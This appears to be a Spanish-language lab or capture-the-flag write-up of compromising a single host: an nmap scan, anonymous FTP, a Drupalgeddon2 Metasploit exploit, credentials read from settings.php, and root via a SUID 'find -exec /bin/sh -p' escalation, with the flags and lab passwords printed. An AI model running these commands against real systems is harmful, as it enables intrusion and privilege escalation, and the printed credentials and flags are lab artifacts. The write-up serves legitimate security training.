

# Host 3 - 192.168.100.52

Escaneamos esta IP de la siguiente forma:

```sh
nmap -Pn -sS -sV -sC -T4 -p- -O -oN 192.168.100.52.txt 192.168.100.52
```

Y obtenemos lo siguiente:

```sh
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.100.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 65534    65534         318 Apr 18  2022 updates.txt
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:68:91:27:05:8a:c8:5c:43:7f:ff:4f:f9:88:d4:39 (RSA)
|   256 41:65:dd:f6:b1:83:10:0b:27:5e:02:d0:ab:79:65:23 (ECDSA)
|_  256 29:c6:cb:c2:0a:c9:27:11:5e:27:01:0d:58:8a:39:24 (ED25519)
25/tcp   open  smtp          OpenSMTPD
| smtp-commands: 1c5ce6f62bfc Hello ip-192-168-100-52.ec2.internal [192.168.100.5], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp   open  http          Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2018-02-21 17:28  drupal/
|_
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   Samba smbd 4.13.17-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql         MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 37
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, ODBCClient, Speaks41ProtocolNew, Speaks41ProtocolOld, InteractiveClient, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, FoundRows, IgnoreSigpipes, LongColumnFlag, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsTransactions, SupportsCompression, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ?aH'&,F]#4|64C3vz#:=
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server xrdp
MAC Address: 0E:FF:D1:BF:A1:71 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 1 hop
Service Info: Hosts: 1c5ce6f62bfc, IP-192-168-100-52; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-11-21T11:54:48
|_  start_date: N/A
|_nbstat: NetBIOS name: IP-192-168-100-, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.13.17-Ubuntu)
|   Computer name: ip-192-168-100-52
|   NetBIOS computer name: IP-192-168-100-52\x00
|   Domain name: ec2.internal
|   FQDN: ip-192-168-100-52.ec2.internal
|_  System time: 2026-11-21T11:54:48+00:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.96 seconds
```

Información recolectada:
- Sistema operativo: Linux (Ubuntu)
- Hostname: `ip-192-168-100-52`
- Servicios relevantes: FTP (vsftpd 3.0.3, anónimo), SSH (22), SMTP (OpenSMTPD), HTTP (Apache 2.4.41 sirviendo un `drupal/`), Samba (139/445) y MySQL/MariaDB (3306).

## Puerto 21 (FTP anónimo)

El FTP permite login anónimo y expone un archivo `updates.txt`. Nos conectamos y lo descargamos:

```sh
ftp 192.168.100.52
ls
get updates.txt
exit

cat updates.txt
```

```
Greetings gentlemen!

- I have setup the server successfully and have configured Drupal.
- Your Drupal usernames are exactly the same as your user account passwords on this server. Contact me to get your Drupal passwords.
- I was too busy to setup a file sharing server so i will be posting the updates here.

- admin
```

> **Dato crítico:** el mensaje revela que *los nombres de usuario de Drupal son iguales a las contraseñas de las cuentas del sistema*. Esto será la clave del movimiento lateral/escalada más adelante (credenciales reutilizadas).

## Enumeración web — Drupal

El puerto 80 (Apache 2.4.41) sirve un directorio `drupal/`. Identificamos la versión de Drupal consultando `changelog.txt`, confirmando **Drupal 7.57**. En el sitio se observa además que existe el usuario **`auditor`**, autor de una publicación del blog.



Con `dirb` sobre el sitio encontramos rutas típicas de Drupal:

```
/web.config
/xmlrpc.php
```

La versión de base de datos detectada por Nmap es:

```
MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
```

## Explotación — Drupalgeddon2 (RCE)

Drupal 7.57 es vulnerable a **Drupalgeddon2** (RCE no autenticado). Lo explotamos con el módulo de Metasploit correspondiente:

```sh
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.100.52
set TARGETURI /drupal/
run
```

Obtenemos una shell como el usuario del servicio web.

## Credenciales locales — movimiento lateral

Con acceso al sistema de archivos, leemos el `settings.php` de Drupal, que contiene las credenciales de la base de datos:

```php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'syntex0421',
      'host' => 'localhost',
      'port' => '3306',
      'driver' => 'mysql',
```

- Credenciales de BD / root de MySQL: `syntex0421`

Recordando la pista de `updates.txt` (usuarios de Drupal = contraseñas del sistema), revisamos los usuarios almacenados localmente (`users.txt`) y confirmamos la credencial del usuario **`dbadmin`**:

```
dbadmin:sayang
```

La flag del usuario la encontramos en el directorio de **`auditor`**:

```
40a1dd4ede664ccfb53973e9d9214db8
```

## Escalada de privilegios — SUID en `find`

Buscamos binarios con el bit SUID activado:

```sh
find / -perm -4000 -type f 2>/dev/null
```

Entre los resultados aparece **`/usr/bin/find`** con SUID, lo cual permite ejecutar una shell con privilegios elevados (técnica estándar de GTFOBins):

```sh
find . -exec /bin/sh -p \; -quit
```

Con esto obtenemos shell como root y leemos la flag de root:

```
fa5c44fbadf54dee8da5580b9c51effe
```

## Interfaces de red

Salida de `ip a` en el host (incluye los bridges de Docker presentes en el sistema):

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 0e:ff:d1:bf:a1:71 brd ff:ff:ff:ff:ff:ff
    altname enp0s5
    inet 192.168.100.52/24 brd 192.168.100.255 scope global dynamic ens5
       valid_lft 3335sec preferred_lft 3335sec
    inet6 fe80::cff:d1ff:febf:a171/64 scope link 
       valid_lft forever preferred_lft forever
3: br-decc664e2ae4: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:d3:62:77:ae brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-decc664e2ae4
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:f6:83:bc:42 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
5: br-9e725181656f: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0c:ac:1b:3c brd ff:ff:ff:ff:ff:ff
    inet 172.21.0.1/16 brd 172.21.255.255 scope global br-9e725181656f
       valid_lft forever preferred_lft forever
    inet6 fe80::42:cff:feac:1b3c/64 scope link 
       valid_lft forever preferred_lft forever
6: br-c9cc91cc3452: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:da:83:49:73 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-c9cc91cc3452
       valid_lft forever preferred_lft forever
8: veth9ed2b7b@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-9e725181656f state UP group default 
    link/ether ee:76:aa:84:a7:76 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::ec76:aaff:fe84:a776/64 scope link 
       valid_lft forever preferred_lft forever
```

## Resumen de la cadena de ataque

```
Nmap → FTP anónimo (updates.txt: usuarios Drupal = contraseñas del sistema) → Drupal 7.57
     → Drupalgeddon2 (Metasploit) → shell www → credenciales locales (settings.php: syntex0421,
       users.txt: dbadmin:sayang) → flag de auditor → SUID en /usr/bin/find → root → flag de root
```

## Lecciones clave

- Un FTP anónimo con un simple `updates.txt` puede regalar **toda la lógica de credenciales** del entorno.
- Identificar la versión exacta de Drupal (`changelog.txt`) permite ir directo a **Drupalgeddon2**.
- Tras el RCE, revisar **`settings.php`** siempre expone las credenciales de la base de datos.
- `/usr/bin/find` con SUID → root inmediato vía `-exec /bin/sh -p`.
